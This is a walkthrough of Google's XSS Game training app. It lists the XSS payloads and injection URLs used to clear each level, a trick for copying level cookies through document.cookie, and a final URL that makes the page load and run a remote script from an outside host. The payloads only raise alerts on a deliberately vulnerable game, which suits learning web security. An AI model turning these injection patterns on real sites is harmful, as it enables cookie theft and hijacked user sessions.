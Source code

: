 # Notes on Google's [XSS Game][1] Web App

## [Level 1](https://xss-game.appspot.com/level1)
Level 1 is vulnerable to a Reflected XSS attack. It can be exploited by injecting XSS code into either the form field or the URL. Both of these examples work if you paste them into the form field and press the Search button:

```html
<img src=x onerror="alert('xss')">
<script>alert("xss");</script>
```

Both of the above examples also work if you inject them into the URL and press the Go button (which is part of the fake browser). The only limitation I found was that code injected into the URL will not work if it has a semicolon. In the second example above, you could just omit the semicolon, since it is only a one-line script.

But the attack does work through the URL if you just URL-encode the semicolon as `%3B`. Note that you'll have to prepend your attack code with: `?query=`. So you're concatenating three separate pieces:

1. `https://xss-game.appspot.com/level1/frame`
2. `?query=`
3. `<script>alert("xss")%3B</script>`

The full URL is now:
```code
https://xss-game.appspot.com/level1/frame?query=<script>alert("xss")%3B</script>
```

## [Level 2](https://xss-game.appspot.com/level2)
Level 2 is about Stored (aka persistent) XSS. This level seems to have some filtering to prevent you from injecting `<script>` tags. But it does allow `<img>` tags. And `<img>` tags allow handlers (like `onerror`) which can contain Javascript:

```
<img src="x" onerror="alert('xss')">
```

Once that attack string is submitted through the form field, every time the page loads, our Javascript will run in the user's browser - any user - they just have to visit this page. This is why stored XSS is more dangerous than Reflected XSS.

I could not figure out a way to inject the code directly into the URL.

## [Level 3](https://xss-game.appspot.com/level3)
To get past Level 3 I had to use Safari (10.0.3) because Firefox (51.0.1) and Chrome (55.0.2883.95) both prevented the injection of a space, encoded or not, after the single quote. Here is the full URL I used to successfully pass Level 3 with Safari:
```code
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
But I wanted to keep working with Firefox. So I copied Safari's cookie called "level3". To do this:

1. I configured Safari to use the Burp proxy.
1. I exploited Level 1 and 2 as described above.
1. I visited the URL for level three, with the attack code appended, as shown above. When the `alert()` popped up, the game set a new cookie called `level3`.
1. I copied the name and value of the third cookie:

  ```code
  level1=f148716ef4ed1ba0f192cde4618f8dc5;
  level2=b5e530302374aa71cc3028c810b63641;
  level3=d5ce029d0680b3816a349da0d055fcfa;
  ```
  
  Here's how to set a new cookie in FF or Chrome using the console in dev tools:
  
  ```javascript
  document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
  ```

Now you can advance to level 4 in FF or Chrome. But, unlike the other cookies set by the game, the manually-set cookie will be set to expire at the end of the session. So if you close your browser tab for `xss-game.appspot.com`, then open a new tab to that website, you'll find that you can't go to Level 4. This is because the `level3` cookie expired when the previous session ended. So the better way to manually set that cookie is to include a value for the `expires` attribute:

```javascript
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa;expires='Fri, 22 July 2022 5:34:56 GMT'";
```

You can set several other cookie attributes like this, but the [specification][2] for `document.cookie` is very detailed and specific about syntax.


## [Level 4](https://xss-game.appspot.com/level4)

I couldn't figure out Level 4. I had to Google somebody else's answer and then play with it because it was not working as they described. Eventually I found that, in all three browsers, this string worked if you input it into the form field and clicked the "create timer" button.

```
');alert();var b=('
```

But to get this attack to work by injecting directly into the URL, you first have to URL-encode the attack string:

```
%27%29%3Balert%28%29%3Bvar+b%3D%28%27
```

There are websites that will do this for you. But they can be buggy and unreliable. Recently I've been using this, which is included by default with Python 2.7.x:

```python
>>> import urllib
>>> foo = "');alert();var b=('"
>>> urllib.quote_plus(foo)
'%27%29%3Balert%28%29%3Bvar+b%3D%28%27'
```

Remember to surround the attack string with double quotes in the variable assignment. Also remember to remove the outer single quotes that Python added to the output. It's slightly different in Python 3. I learned about this in an [answer][3] on StackExchange.com.

Now, similar to the URL assembly we did for Level 1, we need to prepend the attack string with the right variable name, preceded by a `?` and followed by a `=`. We're concatenating these elements:

1. `https://xss-game.appspot.com/level4/frame`
2. `?timer=`
3. `%27%29%3Balert%28%29%3Bvar+b%3D%28%27`

Which becomes:

```code
https://xss-game.appspot.com/level4/frame?timer=%27%29%3Balert%28%29%3Bvar+b%3D%28%27
```

Now just click the "Go" button in the fake browser.


## [Level 5](https://xss-game.appspot.com/level5)
To get through this level you have to do these in order:

1. Click on the "Sign up" link.
2. On the next page the URL will have changed to this:

   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=confirm
   ```

   In the URL, change the value of `next` from `confirm` to `javascript:alert(1)`.
3. Click the "Go" button, which is part of the fake browser. Clicking this button changes the value of the `href` for the "Next >>" link. Before you click the "Go" button, if you hover over the "Next >>" link, the target shown in the hoverbox is:

   ```code
   https://xss-game.appspot.com/level5/frame/confirm
   ```

   And in fact the `href` value is a relative link, simply `confirm`. After changing `confirm` to `javascript:alert(1)`, the URL is now set to this:

   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
   ```

   Click the "Go" button. Now if you hover over that same "Next >>" link, the target shown in the hoverbox is now just:

   ```
   javascript:alert(1)
   ```

   By the user having edited the URL manually, that link's `href` value had changed to the user's input.
4. Click the "Next >>" link. The alert pops up and the game sets a new cookie and displays a banner saying that you may now go on to the next level.

I think the lesson here was that if you can't inject any tags you can still inject the `javascript:` resource identifier before the actual Javascript code. I had to click on all four hints until I followed Hint 4's link to [this IETF draft](https://tools.ietf.org/html/draft-hoehrmann-javascript-scheme-00).


## Level 6
For Level 6 I had to look up the answer. It turns out that the regex was not case sensitive, so this is the successful URL:
```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```
[1]: https://xss-game.appspot.com/
[2]: https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie
[3]: http://stackoverflow.com/a/9345102
